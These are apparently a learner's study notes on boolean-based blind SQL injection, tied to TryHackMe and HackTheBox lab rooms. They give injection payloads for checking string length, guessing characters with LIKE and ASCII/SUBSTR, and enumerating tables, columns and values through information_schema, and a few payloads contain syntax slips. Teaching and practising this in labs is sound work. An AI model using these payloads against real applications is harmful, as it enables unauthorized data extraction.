 # Boolean-based SQLi

[![sqlinjectionfundamentals](../../../../../_badges/htb/sqlinjectionfundamentals.svg)](https://academy.hackthebox.com/course/preview/sql-injection-fundamentals)
[![sqlinjectionlm](../../../../../_badges/thm/sqlinjectionlm.svg)](https://tryhackme.com/room/sqlinjectionlm)
[![sqlilab](../../../../../_badges/thm/sqlilab.svg)](https://tryhackme.com/room/sqlilab)
[![adventofcyber2](../../../../../_badges/thm/adventofcyber2/day5.svg)](https://tryhackme.com/room/adventofcyber2)

<div class="row row-cols-lg-2"><div>

Boolean-based SQLi involve injecting SQL bit by bit while only having one output: ok or failed.

For instance, if you have a page telling you if a user exists. If this page return "true" for a username `toto`:

```text!
GET /account?username=toto
```
</div><div>

If you try to inject some SQL "`toto' AND 1=0-- -`"

```text!
GET /account?id=toto' AND 1=0-- -
```

The response will indicate that the username does not exist, but as you know it exists from the previous request, we can infer that the trailing injected code failed (`AND 1=0-- -`).
</div></div>

<hr class="sep-both">

## Manual Boolean-based SQLi

[![sqlinjectionlm](../../../../../_badges/thm/sqlinjectionlm.svg)](https://tryhackme.com/room/sqlinjectionlm)
[![sqlilab](../../../../../_badges/thm/sqlilab.svg)](https://tryhackme.com/room/sqlilab)
[![adventofcyber2](../../../../../_badges/thm/adventofcyber2/day5.svg)](https://tryhackme.com/room/adventofcyber2)

<div class="row row-cols-lg-2"><div>

Manually exploiting a Boolean-based SQLi is hard and lengthy. You will do exactly what we do during [Union-based SQL](union_sqli.md#manual-union-based-sqli), aside from the fact that you work letter by letter.

* **Number of columns selected** - unchanged
* **Find the type of each column** - unchanged
* **Find which columns are displayed** - unchanged
* **Find the DBMS used** - letter by letter
* **Extract data** - letter by letter

➡️ All examples below are with `database()`, but you will have to use comparisons to find the DMBS, the database, the table, the columns, and even to extract the values in the table.

Before testing each letter, we should check the length of the text you want to guess to mentally prepare ourselves. 

```text!
' AND LENGTH(database()) > 5 -- -
' AND LENGTH(database()) > 15 -- -
' AND LENGTH(database()) > 12 -- -
' AND LENGTH(database()) == 14 -- --
[...]
```

Then, we may use `LIKE` to rather easily find the name:

```text!
' AND database() LIKE '%' -- - // test; should always be true
' AND database() LIKE 'a%' -- - // starting
' AND database() LIKE 'b%' -- -
[...]
' AND database() LIKE 'm%' -- - // ok
' AND database() LIKE 'ma%' -- -
' AND database() LIKE 'mb%' -- -
[...]
' AND database() LIKE 'my_example' -- - // found 😢
```
</div><div>

There may be multiple databases starting with the same letter. To know if there are more, you have to exclude the one you found.

```text!
' AND database() != 'my_example' AND database() LIKE 'my_%' -- -
[...]
```

For some conditions, you may use something like this:

```text!
-- fetch table name
' 1 IN (SELECT 1 FROM information_schema.tables WHERE table_schema = 'database_name' AND table_name like '%') -- -
[...]
-- fetch column name
' 1 IN (SELECT 1 FROM information_schema.tables WHERE table_schema = 'database_name' AND table_name='table_name' AND column_name LIKE '%') -- -
[...]
-- fetch values
' 1 IN (SELECT 1 FROM database_name.table_name WHERE column_name LIKE '%') -- -
```

You can't always use LIKE, and may have to fall back to ASCII.

```text!
WHERE ASCII(SUBSTR(text,1,1) = ASCII('a')
-- extract the first character (pos=1, len=1)
-- of a text 'text'. Convert the character to ASCII
-- and, check if this is the same as the ASCII of 'a'

-- find the ASCII (do it inside YOUR DBMS)
SELECT ASCII('A') -- 65

-- then use
WHERE ASCII(SUBSTR(text,1,1)) = 65
-- some are using "65 to HEX" = X'41'
WHERE SUBSTR(text,1,1) = CAST(X'41' as char)
```
</div></div>